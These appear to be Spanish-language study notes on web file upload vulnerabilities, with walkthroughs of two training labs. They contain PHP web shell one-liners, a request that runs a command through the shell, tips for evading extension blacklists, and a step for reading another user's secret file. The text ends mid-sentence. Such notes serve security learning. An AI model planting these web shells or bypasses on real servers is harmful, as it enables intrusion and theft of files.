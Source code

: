   

Vulnerabilidad de servidor el cuál no valida el nombre, extensión, tamaño o contenido el archivo subido.

  

No sólo podemos ganar una reverse shell, también podemos ejecutar código para leer archivos concretos o ejecutar un único comando:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

`<?php echo system($_GET['command']); ?>`

`GET /example/exploit.php?command=id HTTP/1.1`

  

En los formularios HTML normalmente se envián con una solicitud POST

`application/x-www-form-url-encoded` --> texto simple

 `multipart/form-data` --> grandes binarios, imágenes o pdf

  

A continuación una petición en la que se envía una imagen, usuario y descripción:

  

`POST /images HTTP/1.1 Host: normal-website.com Content-Length: 12345 Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456 ---------------------------012345678901234567890123456 Content-Disposition: form-data; name="image"; filename="example.jpg" Content-Type: image/jpeg [...binary content of example.jpg...] ---------------------------012345678901234567890123456 Content-Disposition: form-data; name="description" This is an interesting description of my image. ---------------------------012345678901234567890123456 Content-Disposition: form-data; name="username" wiener ---------------------------012345678901234567890123456--`

  

Los servers utilizan el `filename`campo en `multipart/form-data` para determinar en que ruta se guarda el archivo a subir

Para eludir las listas negras de extensiones podemos poner `.php5`, `.shtml` al final de nuestro archivo
### Lab  - Subida de archivos sin verificar

  Puedo subir un archivo php con el contenido:

`<?php echo file_get_contents('/home/carlos/secret'); ?>`

Mando al repeater la petición de:

GET /files/avatars/exploit.php HTTP/2 para que solicite ese archivo

![[Pasted image 20240209142107.png]]

Obtengo el secreto de Carlos

### Lab  - Vulnerabilidad de campo Content-Type

Esta vez la Web si valida el content-type, por lo que no puedo subir archivos php, mando una webshell dentro del archivo exploit.png, pero cambio en REPEATER
